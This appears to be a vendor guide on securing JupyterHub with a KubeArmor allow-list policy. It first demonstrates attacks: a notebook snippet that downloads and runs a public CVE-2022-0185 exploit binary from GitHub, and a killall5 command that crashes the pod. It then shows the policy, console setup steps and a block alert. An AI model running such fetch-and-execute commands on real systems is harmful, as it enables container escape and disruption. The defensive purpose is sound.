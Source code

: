 # Zero-Trust Policies for JupyterHub Security

JupyterHub brings the power of notebooks to groups of users. It gives users access to computational environments and resources without burdening the users with installation and maintenance tasks. While this is a great model, attackers, or unethical users might take undue advantage of this model. The very nature of the Jupyter notebook is to allow users to do remote command/code execution.

Remote Command Injection is just the start. Left unchecked, the attacker can gain unauthorized access to the kubernetes resources, exfiltrate data and mount supply chain attacks to name a few.

![alt](images/jupyter-notebook/jupyter-0.png)

## Insecure Shell

On a shell of jupyter notebook, any of the binaries are allowed to execute by default. If we try to execute some system binaries, it is observed that there is no restriction to do so. For example, consider the ```killall5``` system binary.

![alt](images/jupyter-notebook/jupyter-1.png)

Executing ```killall5``` in Jupyter notebook isn’t restricted. The binary terminates all running processes and even affects the kubernetes environment as we can observe the pod getting restarted as the container crashes.

![alt](images/jupyter-notebook/jupyter-2.png)

## Remote Code Injection

Jupyter notebook by nature allows remote code injection and execution of binaries from any source. To demonstrate this, an exploit for CVE-2022-0185 can be used as provided below:

```sh
!touch exploit
import urllib.request
urllib.request.urlretrieve("https://github.com/nyrahul/CVE-2022-0185/raw/master/exploit", "exploit")
!chmod +x exploit
!./exploit
```

On running the above in the notebook, we can see the exploit binary getting executed without any resistance.

![alt](images/jupyter-notebook/jupyter-3.png)

Such an open environment is not desirable and AccuKnox can help with restricting this behavior by the use of KubeArmor policies.

## Attack Prevention

The following policy can be used to protect the Jupyter Notebook:

```yaml
apiVersion: security.kubearmor.com/v1
kind: KubeArmorPolicy
metadata:
  name: protect-jupyter
  namespace: jupyter
spec:
  selector:
    matchLabels:
      app: jupyterhub
      component: singleuser-server
  network:
    matchProtocols:
    - fromSource:
      - path: /usr/local/bin/python3.11
      protocol: udp
    - fromSource:
      - path: /usr/local/bin/python3.11
      protocol: tcp
  file:
    matchDirectories:
    - dir: /
      recursive: true
    - dir: /usr/local/bin/
      readOnly: true
    - dir: /bin/
      readOnly: true
    - dir: /usr/bin/
      readOnly: true
  process:
    matchDirectories:
    - dir: /usr/local/bin/
    - dir: /usr/bin/
    - dir: /bin/
  action: Allow
```

The above KubeArmor policy

- Allows only python to use network primitives

- Allows only read access to ```/usr/local/bin/``` and ```/bin/``` folders

- Allows execution only from ```/usr/local/bin/``` and ```/bin/``` folders

## **Preventing exploitation by using AccuKnox Zero Trust CNAPP**

**Step 1**:  To create the policy Navigate to Runtime Protection → Policies. Then select ***Create Policy*** option from the screen.

![alt](images/jupyter-notebook/jupyter-4.png)

**Step 2**: In the policy editor tool create/upload the above policy. Select the Cluster, namespace, save and then select **Save to workspace** option.

![alt](images/jupyter-notebook/jupyter-5.png)

**Step 3**: Apply the policy by clicking on the three dots next to the saved policy and selecting ***Apply Policy***.

![alt](images/jupyter-notebook/jupyter-6.png)

**Step 4**: Since this is an allow based policy, to effectively make use of it, we’ll need to set the default posture to block.

- **Step 4.1**: Navigate to Inventory → Cloud Workloads. Select the cluster that has jupyterhub deployed and click on **View Workloads**

![alt](images/jupyter-notebook/jupyter-7.png)

- **Step 4.2**: Click on info at the top of the namespace where jupyterhub is deployed. Then select **Edit** in the pop up that opens

![alt](images/jupyter-notebook/jupyter-8.png)

- **Step 4.3**: Click on the slider to the left of Process/File to shift to the default deny mode. A green popup appears on successful update.

![alt](images/jupyter-notebook/jupyter-9.png)

**Step 5**: Now try executing ```!killall5``` in the jupyter notebook instance.

Try downloading and executing the exploit of CVE-2022-0185 with the script that was introduced above.

![alt](images/jupyter-notebook/jupyter-10.png)

Alerts are generated for the attempts to exploit:

```sh
root:
  Action:Block
  ClusterName:gke-demo
  ContainerID:36e9a4bcf13b3e72aac683dc864414f7d122792b9f8d734f8b230a588cdfdb05
  ContainerImage:quay.io/jupyterhub/k8s-singleuser-sample:3.3.5@sha256:a839b70b9061119ef4117f37f25133d68294c764ae1c1048726c3e65b809d8eb
  ContainerName:notebook
  Cwd:/
  Data:lsm=SECURITY_BPRM_CHECK
  Enforcer:BPFLSM
  HostName:gke-do-637-cluster-pool-1-6a8519c6-d7x3
  HostPID:3410014
  HostPPID:3410013
  Labels:hub.jupyter.org/servername=,hub.jupyter.org/username=user1,release=jupyter-release,app=jupyterhub,chart=jupyterhub-3.3.5,component=singleuser-server,heritage=jupyterhub,hub.jupyter.org/network-access-hub=true
  NamespaceName:jupyter
  Operation:Process
  Owner:
    Name:jupyter-user1
    Namespace:jupyter
    Ref:Pod
  PID:49
  PPID:48
  ParentProcessName:/bin/dash
  PodName:jupyter-user1
  PolicyName:DefaultPosture
  ProcessName:/home/jovyan/exploit
  Resource:/home/jovyan/exploit
  Result:Permission denied
  Source:/bin/dash
  Timestamp:1712060619
  Type:MatchedPolicy
  UID:1000
  cluster_id:25444
  component_name:kubearmor
  instanceGroup:0
  instanceID:0
  workload:1
```

The result is permission denied for both as the policy applied does not allow any process to execute other than the ones present in ```/usr/local/bin```, ```/usr/bin/``` and ```/bin/``` directories. In addition, since the policy also prevents write to these directories, the jupyter environment is shielded from execution of malicious code by attackers.
